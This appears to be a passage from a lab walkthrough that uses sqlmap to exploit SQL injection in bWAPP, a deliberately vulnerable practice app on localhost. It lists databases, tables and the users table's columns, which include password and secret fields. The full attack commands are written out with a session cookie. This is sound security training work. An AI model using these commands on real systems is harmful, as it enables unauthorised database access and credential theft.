 ### step2: Fetch all the DATAbases:
```bash
   sqlmap -u "http://localhost:8081/sqli_1.php?title=iron+man+&action=search" --cookie="PHPSESSID=360f8c2qsn63ogbm5s321qnii4; security_level=0" --batch --dbs
```

--dbs - a flag to grab and return all the databases available

<img width="1920" height="947" alt="image" src="https://github.com/user-attachments/assets/224ea620-af4e-42d2-bfb5-7aa3c981ec9f" />
the command returned back four databases

- bWAPP
- information_schema
- mysql
- performance_schema
  
In this case we will only use bWAPP because its the database in charge of the website since the site is called bwapp too.

### step3: Enumerate the bWAPP database
```bash
sqlmap -u "http://localhost:8081/sqli_1.php?title=iron+man+&action=search" --cookie="PHPSESSID=360f8c2qsn63ogbm5s321qnii4; security_level=0" --batch -D bWAPP --tables
```

- -D -flag to show the database (bwapp in this case).

- --tables -a flag to reutrn back all the tables in the database 

<img width="1920" height="947" alt="image" src="https://github.com/user-attachments/assets/5f05021f-d4d4-4149-9967-9aa16495df8d" />
The command returns back 5 tables 

- blog     
- heroes   
- movies   
- users    
- visitors

### step4: Enumerate the users table:
```bash
sqlmap -u "http://localhost:8081/sqli_1.php?title=iron+man+&action=search" --cookie="PHPSESSID=360f8c2qsn63ogbm5s321qnii4; security_level=0" --batch -D bWAPP -T users --columns
```

- -T -flag that show the table to attack
- --columns -flag that returns back the columns in the table given
## The results:
<img width="1920" height="947" alt="image" src="https://github.com/user-attachments/assets/78aef005-905d-43f5-a243-cc56b63149c1" />
The command pulls back 9 columns that follows:

- admin           
- activated      
- activation_code 
- email          
- id              
- login           
- password        
- reset_code      
- secret 
